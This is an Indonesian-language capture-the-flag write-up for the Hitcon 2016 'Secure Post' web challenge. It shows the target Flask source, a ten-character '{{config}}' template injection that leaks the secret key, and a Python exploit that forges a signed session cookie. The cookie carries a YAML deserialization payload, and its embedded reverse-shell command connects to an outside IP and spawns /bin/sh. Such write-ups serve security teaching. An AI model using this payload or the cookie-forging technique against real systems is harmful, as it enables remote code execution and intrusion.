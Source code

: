 ```yaml
---
layout: post
title: "Hitcon 2016 : Secure Post"
description: "Hitcon 2016 : Secure Post"
headline: 
modified: 2016-10-10
category: Hitcon 2016
tags: [Hitcon 2016]
imagefeature: /images/php.jpg
mathjax: 
chart: 
comments: true
featured: true
---
```


### Problem :

Here is a service that you can store any posts. Can you hack it?
http://52.198.91.29/

### Solution : 

Di berikan web service dengan flask. dan kita bisa mengakses source code nya di `http://52.198.91.29/source`

```python

from flask import Flask
import config

# init app
app = Flask(__name__)
app.secret_key = config.flag1
accept_datatype = ['json', 'yaml']

from flask import Response
from flask import request, session
from flask import redirect, url_for, safe_join, abort
from flask import render_template_string

# load utils
def load_eval(data):
    return eval(data)

def load_pickle(data):
    import pickle
    return pickle.loads(data)

def load_json(data):
    import json
    return json.loads(data)

def load_yaml(data):
    import yaml
    return yaml.load(data)

# dump utils
def dump_eval(data):
    return repr(data)

def dump_pickle(data):
    import pickle
    return pickle.dumps(data)

def dump_json(data):
    import json
    return json.dumps(data)

def dump_yaml(data):
    import yaml
    return yaml.dump(data)


def render_template(filename, **args):
    with open(safe_join(app.template_folder, filename)) as f:
        template = f.read()
    name = session.get('name', 'anonymous')[:10]
    return render_template_string(template.format(name=name), **args)

def load_posts():
    handlers = {
        # disabled insecure data type
        #"eval": load_eval,
        #"pickle": load_pickle,

        "json": load_json,
        "yaml": load_yaml
    }

    datatype = session.get("post_type", config.default_datatype)
    data = session.get("post_data", config.default_data)

    if datatype not in handlers: abort(403)
    return handlers[datatype](data)

def store_posts(posts, datatype):
    handlers = {
        "eval": dump_eval,
        "pickle": dump_pickle,

        "json": dump_json,
        "yaml": dump_yaml
    }
    if datatype not in handlers: abort(403)
    data = handlers[datatype](posts)

    session["post_type"] = datatype
    session["post_data"] = data


@app.route('/')
def index():
    posts = load_posts()
    return render_template('index.html', posts = posts, accept_datatype = accept_datatype)

@app.route('/post', methods=['POST'])
def add_post():
    posts = load_posts()

    title = request.form.get('title', 'empty')
    content = request.form.get('content', 'empty')
    datatype = request.form.get('datatype', 'json')
    if datatype not in accept_datatype: abort(403)
    name = request.form.get('author', 'anonymous')[:10]

    from datetime import datetime
    posts.append({
        'title': title,
        'author': name,
        'content': content,
        'date': datetime.now().strftime("%B %d, %Y %X")
    })
    session["name"] = name
    store_posts(posts, datatype)
    return redirect(url_for('index'))

@app.route('/source')
def get_source():
    with open(__file__, "r") as f:
        resp = f.read()
    return Response(resp, mimetype="text/plain")

```


### Secure Post 

pada fungsi `add_post` terlihat bahwa author name yang kita input akan di simpan ke dalam session.
`session["name"] = name` dan pada fungsi `render_template` session kita di ambil 10 karakter pertamanya
`name = session.get('name', 'anonymous')[:10]`. kemungkinan kita bisa melakukan template string injection.
namun kita tidak bisa menggunakan payload yang lebih dari 10 karakter awalnya kita coba `{{config.items()}}`
tapi tidak menghasilkan apa karena > 10 karakter. dan setelah beberapa lama akhirnya di temukan flag dengan `{{config}}`
pas 10 karakter. 

```html
<p class="lead blog-description"><Config {'SESSION_COOKIE_NAME': 'session', 'SESSION_COOKIE_PATH': None, 'TRAP_HTTP_EXCEPTIONS': False, 'SESSION_COOKIE_SECURE': False, 'SESSION_COOKIE_DOMAIN': None, 'USE_X_SENDFILE': False, 'MAX_CONTENT_LENGTH': None, 'SEND_FILE_MAX_AGE_DEFAULT': 43200, 'PRESERVE_CONTEXT_ON_EXCEPTION': None, 'SESSION_COOKIE_HTTPONLY': True, 'SERVER_NAME': None, 'APPLICATION_ROOT': None, 'DEBUG': False, 'JSON_AS_ASCII': True, 'TESTING': False, 'JSONIFY_PRETTYPRINT_REGULAR': True, 'PERMANENT_SESSION_LIFETIME': datetime.timedelta(31), 'JSON_SORT_KEYS': True, 'LOGGER_NAME': 'post_manager', 'PREFERRED_URL_SCHEME': 'http', 'PROPAGATE_EXCEPTIONS': None, 'SECRET_KEY': 'hitcon{>_<---Do-you-know-<script>alert(1)</script>-is-very-fun?}', 'TRAP_BAD_REQUEST_ERRORS': False}>
```

### Secure Post 2

ada 2 fungsi yang menarik `store_posts` dan `load_posts` awalnya saya kira `eval` dan `pickle` 
bisa di manfaatkan dalam hal ini untuk membantu melakukan RCE. tapi setelah di lihat lagi kodenya 
memiliki beberapa checking yang sangat strict terhadap `eval` dan `pickle` 

pengecekan di sini `accept_datatype = ['json', 'yaml']` dan `load_posts` di comments
dan beberapa handlers seperti ini `if datatype not in handlers: abort(403)`
sehingga kita mustahil untuk memanfaatkan itu.

ternyata `YAML` sifatnya pun sama dengan pickle ketika melakukan unserialize
tapi untuk melakukan injeksi kita tidak bisa langsung melakukan via `add_post`
kita injeksi langsung ke dalam session flask tersebut. di website nya juga ada 
pesan `Data is not stored in database`. jadi post kita di simpan di dalam session Flask

tapi flask itu melakukan signed sama cookie nya jadi kita ngak bisa 
langsung rubah. untuk itu saya simulasikan dengan `secret_key` yang sama
untuk generate cookie payload yang kita inginkan

```python

class Exploit(object):
 def __reduce__(self):
   fd = 1
   return (exec,
           ('import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("128.199.226.218",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);',))
   

# dump utils
@app.route('/')
def index():
    anu = yaml.dump(Exploit())
    serializer_interface = SecureCookieSessionInterface()
    serializer = serializer_interface.get_signing_serializer(app)
    out = serializer.dumps({
    "name": "shit",
    "post_data": "- "+anu,
    "post_type": "yaml"
})

    print(out)
    return render_template('index.html', out=out)

```

kemudian kita injeksikan session payload ke web tersebut. sebelumnya
kita nyalakan listening pada server kita misalnya port: 4444 seperti
dalam exploit di atas.

[![asciicast](https://asciinema.org/a/6khdwmh6c607znru18kahziij.png)](https://asciinema.org/a/6khdwmh6c607znru18kahziij)

Flag : `hitcon{unseriliaze_is_dangerous_but_RCE_is_fun!!}`